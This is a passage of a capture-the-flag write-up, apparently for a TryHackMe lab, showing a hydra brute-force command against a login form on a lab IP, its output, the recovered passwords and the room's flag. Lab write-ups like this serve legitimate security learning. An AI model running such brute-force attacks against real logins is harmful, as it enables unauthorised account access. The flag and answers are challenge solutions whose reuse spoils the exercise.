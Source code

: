 
After a while, we get the password:

```
!multidisciplinary00
```

#### Login-Get

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250512182549.png)

Let's go to the page and check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250512174207.png)

We need to check the behavior of the request, let's submit it to our proxy:

![](gitbook/cybersecurity/images/Pasted%20image%2020250512174314.png) With all this information, we can now craft a hydra command:

```
hydra -l phillips -P clinic.lst 10.10.131.98 http-get-form "/login-get/index.php:user=phillips&pass=^PASS^:F=Login failed! " -t 20

[80][http-get-form] host: 10.10.131.98   login: phillips   password: protected
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Oxytocin
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Research
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Cortisol
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Paracetamol
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Cardiology
[80][http-get-form] host: 10.10.131.98   login: phillips   password: February
[80][http-get-form] host: 10.10.131.98   login: phillips   password: treatment
[80][http-get-form] host: 10.10.131.98   login: phillips   password: hospital
[80][http-get-form] host: 10.10.131.98   login: phillips   password: appointment
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Saturday
[80][http-get-form] host: 10.10.131.98   login: phillips   password: commonly
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Pregnancy
[80][http-get-form] host: 10.10.131.98   login: phillips   password: providing
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Copyright
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Laboratory
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Departments
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Insurance
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Template
[80][http-get-form] host: 10.10.131.98   login: phillips   password: tooplate
```

We got a bunch of passwords, after trying them, the right one is `Paracetamol`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250512181201.png)

We got our flag:

```
THM{33c5d4954da881814420f3ba39772644}
```
